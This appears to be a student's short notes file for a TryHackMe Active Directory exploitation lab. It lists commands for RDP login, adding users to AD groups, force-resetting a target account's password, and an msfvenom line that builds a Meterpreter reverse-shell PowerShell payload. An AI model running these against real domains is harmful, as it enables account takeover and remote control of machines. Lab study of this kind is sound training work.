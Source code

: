 # References
- https://tryhackme.com/r/room/exploitingad

# Notes



# Commands

~~~
xfreerdp /u:<uname>  /p:<pwd> /v:<ip>
~~~

~~~
Add-ADGroupMember "<Group>" -Members "<uname>"
~~~

~~~
Get-ADGroupMember -Identity "<Group>"
~~~

~~~
$Password = ConvertTo-SecureString "t2_robin_wyatt" -AsPlainText -Force
~~~

~~~
Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password
~~~

MSFVenom
~~~
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
~~~
